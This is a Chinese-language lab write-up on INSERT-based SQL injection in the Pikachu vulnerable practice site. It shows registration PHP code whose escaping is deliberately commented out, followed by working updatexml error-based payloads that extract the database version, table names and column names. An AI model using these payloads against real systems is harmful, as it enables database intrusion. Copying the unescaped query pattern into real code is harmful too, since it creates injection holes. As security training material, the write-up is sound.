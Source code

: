 **服务器端核心代码**
```php
if(isset($_POST['submit'])){
    if($_POST['username']!=null &&$_POST['password']!=null){
//      $getdata=escape($link, $_POST);//转义

        //没转义,导致注入漏洞,操作类型为insert
        $getdata=$_POST;
        $query="insert into member(username,pw,sex,phonenum,email,address) values('{$getdata['username']}',md5('{$getdata['password']}'),'{$getdata['sex']}','{$getdata['phonenum']}','{$getdata['email']}','{$getdata['add']}')";
        $result=execute($link, $query);
        if(mysqli_affected_rows($link)==1){
            $html.="<p>注册成功,请返回<a href='sqli_login.php'>登录</a></p>";
        }else {
            $html.="<p>注册失败,请检查下数据库是否还活着</p>";

        }
    }else{
        $html.="<p>必填项不能为空哦</p>";
    }
}
```

**漏洞利用**

在上面搜索型注入中演示了 select 类报错获取信息,insert 和 update 其实类似

先测 insert 注入,在注册页面输入 `'` ,来查看后端反馈的观察,通过观察报错了解到提交的内容在后台参与了拼接.

![](../../../../../assets/img/Security/RedTeam/Web安全/靶场/pikachu/45.png)

版本 `1' or updatexml(1,concat(0x7e,(version())),0) or'')#`

表名 `1' or updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='pikachu'limit 0,1)),0) or'')#`

![](../../../../../assets/img/Security/RedTeam/Web安全/靶场/pikachu/46.png)

老规矩,改 limit 后的数字

字段名 `1' or updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_name='users'limit 0,1)),0) or'')#`

![](../../../../../assets/img/Security/RedTeam/Web安全/靶场/pikachu/47.png)
